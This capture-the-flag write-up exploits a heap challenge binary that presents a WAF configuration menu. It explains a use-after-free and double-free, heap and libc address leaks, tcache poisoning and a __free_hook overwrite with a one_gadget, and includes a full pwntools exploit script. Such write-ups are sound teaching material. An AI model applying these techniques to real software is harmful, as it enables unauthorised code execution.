 This challenge is a heap challenge.
The binary is pretty big, so I will not provide the code.
The binary consists of 5 options:
```
Web Application Firewall Configuration.

1. Add new configuration.
2. Edit configuration.
3. Print configuration.
4. Remove last added configuration.
5. Print all configurations.
6. Exit

```

The add option will create a new configuration, which simply mallocs a configuration struct of size 0x18.
Then it asks the user for `id`, `size`, and a `setting` of size `size`, which it mallocs.
It doesn't initilize any mallocs.

the second option is an edit option, it prompts for `id`, and aloows the user to realloc and change the size+setting of the configuration.
There is an UAF bug here, since it doesn't checks if the struct is free

third option just prints info about a given config. the add option doesn't initilize chunks, so we can leak some heap/libc addresses.

fourth option basiclly just frees a configuration , and its setting. doesn't do any checks (besides idx limits), so a double free is possible.

My idea was pretty simple. I just started leaking data, and moved on from there.
leaking heap is pretty simple, we can just allocate any chunk , free it, and use the print option to print its data.
tcachebins contains `heap fd` in their chunk meta data, so its an easy leak.
```py
	add(1, 1, '1')
	remove()
	heap = print_conf(0)[0] - 0x280
```

Then, in order to leak libc, I used the same approach.
unsortedbins contains libc addresses in their chunk metadata, so we need to add one.
Tcache bins are limited to only 7 chunks, so we can free 7 chunks, then allocate a big chunk (we don't want it to be treated as fastbin), and it will be added to the unsorted bin.

```py
	for i in range(8): #fill tcache, to add a chunk to unsorted bins
		add(1, 0x100, 'a'*8)
	for i in range(8):
		remove()
	libc.address = u64(print_conf(idx)[1].ljust(8, b'\x00')) - 0x3ebca0
  ```
  now we have all the leaks we need. we'll be trying to get an arbitrary write primitive using our uafs.
  First of all , lets empty out all the bins to make everything nicer.
  
  ```py
  #empty out tcache
	add(1, 0x81, 'b'*10)
	for i in range(7):
		add(1, 0x100, 'a'*8) #this will sort one chunk to the smallbin

	add(1, 0x50, 'w' * 0x50)  #we get that smal bin chunk
  ```
  
  Now we will start to understand how we get arb-write primitive.
  first of all, lets trick libc, by allocating a chunk, freeing it into the tcache, and change its fd using the edit command.
  We will change `fd` to a chunk we control. libc will think that there is a free chunk there. then we can fully control its fd, and put it whereever we want to write to.

  ```py
  #trigger write after free, and trick libc to think there is a free list in heap+0xc00
	write_chunk = add(1, 0x50, 'k' * 0x50) 
	remove()
  ```
  this will make our bins look like this:
  
  ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/8cb07ebe-70b5-4a45-ae2f-a4a39e90c923)

  then, we'll use the edit, to trick malloc and add our fake fd:
  ```py
  edit(write_chunk, heap + 0xc00, 16, 'b' * 16)
  ```
  
  this will make the bins like this:
 
  ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/bd5a69be-12a6-452a-93f4-092f063ba8b4)
  
  as you can see, the address `0x1edbc00`, is linked to 2 different bins!

  now, we can use the add option, with size=0x18. this will first malloc a struct, and take the first chunk at 0x1edbbe0. 
  then it will do `malloc(0x18)`, which will return `0x1edbc00`, and will let us control it! remember that `0x1edbc00` is still in the 0x60 tcache bin.
  Now we can basiclly write our fake bk, which will be the address we want to write to. in our case we triggered the `__free_hook`:
  
  ```py
  add(1, 0x18, p64(libc.sym.__free_hook)) 
  ```
  now the bins will look like this:
  
  ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/44787cfc-72fe-497c-94b9-31eb43e92e2a)
  
  now we can just add anything we want of size 0x58, which will delete the head of the tcache bin, and will make it contains just our arbitrary address.
  And then , we can malloc, and get a chunk at this arbitrary address. tcache is pretty shit when it comes to security (it is created to make everything faster, which makes it lack security)
  so malloc doesn't even check if there is a valid chunk at this address, and just give us our arbitrary chunk. then we just write one_gadget address there and win.

  ```py
  
  add(1, 0x18, p64(libc.sym.__free_hook)) #fake_chunk->fd->libc.sym.__free_hook
	add(1, 0x58, 'AAAAAAAA') #remove fake_chunk from tcache
	add(1, 0x58,p64(libc.address + 0x4f432)) #get fake_chunk->fd, which is libc.sym.__free_hook
  ```
  
  then we can just free something, and it will call the `__free_hook`, which is our one_gadget.
  what a fun challenge!
  
  full exploit: 
  ```py
  from pwn import *
e = ELF('./waf')
libc = ELF('./libc.so.6')
#p = remote('challenge.nahamcon.com' , 30535)
p = e.debug()

idx = 0
def add(id, size, setting):
	p.sendline('1')
	global idx
	p.recvuntil('config?: ')
	p.sendline(str(id))
	p.recvuntil('setting?: ')
	p.sendline(str(size))
	p.recvuntil('added?: ')
	p.sendline((setting))
	p.recvuntil('[y/n]: ')
	p.sendline('y')
	idx+=1
	return idx-1

def edit(idx, id, size, setting):
	p.sendline('2')
	p.recvuntil('edit?: ')
	p.sendline(str(idx))
	p.recvuntil('ID?: ')
	p.sendline(str(id))
	p.recvuntil('setting?: ')
	p.sendline(str(size))
	p.recvuntil('setting?: ')
	p.sendline(setting)
	p.recvuntil('[y/n]: ')
	p.sendline('y')

def print_conf(idx):
	p.sendline('3')
	p.recvuntil('print?: ')
	p.sendline(str(idx))
	p.recvuntil('ID: ')
	ID = int(p.recvline()[:-1])
	p.recvuntil('Setting: ')
	setting = p.recvline()[:-1]
	p.recv()

	return ID, setting

def remove():
	global idx
	idx-=1
	p.sendline('4')
	p.recv()
def main():
	add(1, 1, '1')
	remove()
	heap = print_conf(0)[0] - 0x280


	for i in range(8): #fill tcache, to add chunks to unsorted bins
		add(1, 0x100, 'a'*8)
	for i in range(8):
		remove()

	libc.address = u64(print_conf(idx)[1].ljust(8, b'\x00')) - 0x3ebca0

	print(hex(libc.address))

	#empty out tcache
	add(1, 0x81, 'b'*10)
	for i in range(7):
		add(1, 0x100, 'a'*8) #this will sort one chunk to the smallbin


	add(1, 0x50, 'w' * 0x50)  #we get that smal bin chunk
	

	#trigger write after free, and trick libc to think there is a free list in heap+0xc00

	write_chunk = add(1, 0x50, 'k' * 0x50) 
	remove()

	edit(write_chunk, heap + 0xc00, 16, 'b' * 16)


	#getting two fastbins chunks, one for meta-data and one for content. since the bin is both in the unsorted bin and in the fastbin, we can control fd of unsorteds

	add(1, 0x18, p64(libc.sym.__free_hook)) #fake_chunk->fd->libc.sym.__free_hook
	add(1, 0x58, 'AAAAAAAA') #remove fake_chunk from tcache
	add(1, 0x58,p64(libc.address + 0x4f432)) #get fake_chunk->fd, which is libc.sym.__free_hook

	remove() #trigger free


	p.interactive()

main()
```
  
  
  
  
